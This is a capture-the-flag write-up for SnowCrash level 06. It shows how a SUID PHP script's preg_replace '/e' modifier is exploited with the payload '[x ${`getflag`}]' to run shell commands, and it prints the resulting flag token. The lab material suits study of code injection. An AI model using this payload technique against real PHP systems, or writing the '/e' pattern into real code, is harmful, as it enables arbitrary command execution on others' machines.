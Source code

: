 # Level 06

- Once logged in, there are couple files in the home dir.

```
???$ ssh level06@localhost -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          localhost 10.110.0.2
level06@localhost's password:
level06@SnowCrash:~$
level06@SnowCrash:~$ ls
level06  level06.php
level06@SnowCrash:~$
```

To check more detail,

```
level06@SnowCrash:~$ ls -ls
total 12
8 -rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
4 -rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```
we can see SUID executable and a PHP script is located.

let's run `level06`, and take a look at `level06.php`

```
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```
```
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
to break down, you will get a php script like this, down below.
```
#!/usr/bin/php
<?php
function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
}
function x($y, $z) {
        $a = file_get_contents($y);
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```
For line where `regex` has `/..../e`, take a look at this [link](http://www.madirish.net/402), which explains it basically executes second argument, if it fulfills the condition.

And on this part of the `regex` (by `/(\[x (.*)\])/e`):
- if `$a` is in form of `[x ${asdfa}]`, it will be first be replaced by second argument of function `"y(\"\\2\")"`

**And it is possible to execute shell in PHP with backticks.**

so, the sufficient form that needs to be passed will be:

```
[x ${`getflag`}]
```

```
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/testing
level06@SnowCrash:~$ ./level06 /tmp/testing
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

level06@SnowCrash:~$
```
